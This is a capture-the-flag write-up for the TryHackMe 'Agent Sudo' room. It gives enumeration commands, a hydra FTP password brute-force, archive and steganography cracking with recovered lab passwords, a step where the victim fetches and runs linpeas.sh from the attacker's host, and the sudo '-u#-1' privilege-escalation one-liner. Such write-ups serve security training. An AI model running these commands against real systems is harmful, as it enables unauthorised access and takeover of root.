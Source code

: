 # Agent Sudo

**Room Link:** [https://tryhackme.com/room/agentsudoctf](https://tryhackme.com/room/agentsudoctf)



## Enumerate

```
nmap -A $VICTIM
```

<figure><img src="../../.gitbook/assets/image (41).png" alt=""><figcaption></figcaption></figure>

```
nmap -p- $VICTIM
```

### TCP/80 - HTTP

```
gobuster dir -u http://$VICTIM -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt 
```

<figure><img src="../../.gitbook/assets/image (76).png" alt=""><figcaption></figcaption></figure>







<figure><img src="../../.gitbook/assets/image (134).png" alt=""><figcaption></figcaption></figure>

### Burp

Change the user-agent to C

**From**

<figure><img src="../../.gitbook/assets/image (126).png" alt=""><figcaption></figcaption></figure>

**To**

<figure><img src="../../.gitbook/assets/image (89).png" alt=""><figcaption></figcaption></figure>





<figure><img src="../../.gitbook/assets/image (47).png" alt=""><figcaption></figcaption></figure>

## Hash cracking and brute-force

### TCP/21 - FTP&#x20;

**Kali**

```
hydra -l chris -P /usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-1000.txt ftp://$VICTIM
```

<figure><img src="../../.gitbook/assets/image (125).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
ftp $VICTIM
Username: chris
Password: crystal
```

<figure><img src="../../.gitbook/assets/image (122).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (78).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
binwalk cutie.png 
binwalk cutie.png -e
```

<figure><img src="../../.gitbook/assets/image (132).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
zip2john 8702.zip > secure_john.txt
john --wordlist=/usr/share/wordlists/rockyou.txt secure_john.txt 
```

<figure><img src="../../.gitbook/assets/image (48).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
7z e 8702.zip
Password: alien
```

<figure><img src="../../.gitbook/assets/image (127).png" alt=""><figcaption></figcaption></figure>

### Cyber Chef

Link: [https://gchq.github.io/CyberChef/](https://gchq.github.io/CyberChef/)

<figure><img src="../../.gitbook/assets/image (51).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
steghide extract -sf cute-alien.jpg
Password: Alien51
```

<figure><img src="../../.gitbook/assets/image (42).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
ssh james@$VICTIM
Password: hackerrules!
```

**Victim**

```
ls
```

<figure><img src="../../.gitbook/assets/image (131).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
scp james@$VICTIM:/home/james/Alien_autospy.jpg .
```

### LinPeas

Linpeas found that sudo is vulnerable, so I looked at the version online and found a way to escalate my privilege's.&#x20;

**Kali**

```
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh
python2 -m SimpleHTTPServer 81
```

**Victim**

```
cd /tmp/
wget http://$KALI:81/linpeas.sh
chmod +x linpeas.sh 
./linpeas.sh
```

<figure><img src="../../.gitbook/assets/image (50).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (133).png" alt=""><figcaption></figcaption></figure>

## **Privilege Escalation**

**Link:** [https://www.exploit-db.com/exploits/47502](https://www.exploit-db.com/exploits/47502)

**Victim**

```
sudo -u#-1 /bin/bash
```

<figure><img src="../../.gitbook/assets/image (99).png" alt=""><figcaption></figcaption></figure>





















